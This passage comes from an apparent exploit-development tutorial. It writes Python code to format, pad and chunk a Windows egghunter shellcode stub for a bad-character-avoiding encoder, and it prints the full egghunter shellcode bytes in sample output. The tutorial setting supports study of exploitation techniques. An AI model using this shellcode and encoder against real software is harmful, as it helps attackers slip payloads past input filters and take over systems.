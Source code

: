 ```py
    formatted = egghunter.replace("????????",tag_bytes)

    num_to_pad = 4 - (len(formatted)/2) % 4

    if num_to_pad != 4:
        formatted += strip_bytes(pad) * num_to_pad

    return formatted

```

At this point, we can define a main function to test our code.

```py
def main():
    a = check_args(sys.argv[1:])
    egghunter = format_egghunter(a.egghunter,a.tag,a.pad)
    print(egghunter)        # DEBUG



if __name__ == "__main__":
    main()
```

If we run our code with the <b>Windows IsBadReadPtr</b> egghunter specified, we can see that padding is properly applied and our tag can be seen in lower case (<b>6d306d30</b>). 

```
# ./encoder-test.py -b "\x22\x2d" -e 1 -t "m0m0"
33DB6681CBFF0F436A0853B80D5BE777FFD085C075ECB86d306d308BFBAF75E7AF75E4FFE7909090
# ./encoder-test.py -b "\x22\x2d" -e 1 -t "m0m0" -p "\x40"
33DB6681CBFF0F436A0853B80D5BE777FFD085C075ECB86d306d308BFBAF75E7AF75E4FFE7404040
```


### Reversing the Egghunter

Before we pass input into the functions <b>restricted_partitions()</b> and <b>format_summands()</b> defined in Part 2, we'll need to separate each chunk of four bytes and reverse the order of those chunks. We will also need to take the two's complement of each of those little-endian formatted chunks. Finally, we must split the two's complement chunks into lists of four individual bytes. Each of these lists will be passed into the <b>restricted_partitions()</b> function.

Bearing in mind that the egghunter is a string of characters where each <i>pair</i> of characters represents the value of an individual hex byte (e.g. 90 represents \x90), the code to generate properly formatted input for the <b>restricted_partitions</b> function is shown below:

```py
'''
Takes the egghunter as a string and splits it into four-byte chunks.
The chunks are reversed and the two's complement of each chunk is generated.
Each two's complement chunk is further split into its individual bytes.
Input: Egghunter string
'''
def reverse_and_split(egghunter):
    chunks = [egghunter[i:i+8] for i in range(0, len(egghunter), 8)] # separate chunks
    print("Egghunter chunks:\n{}".format(chunks))       # DEBUG

    chunks = chunks[::-1] # reverse chunks
    print("Egghunter chunks reversed:\n{}".format(chunks))       # DEBUG

    return(split_chunks(twos_comp(chunks)))



'''
```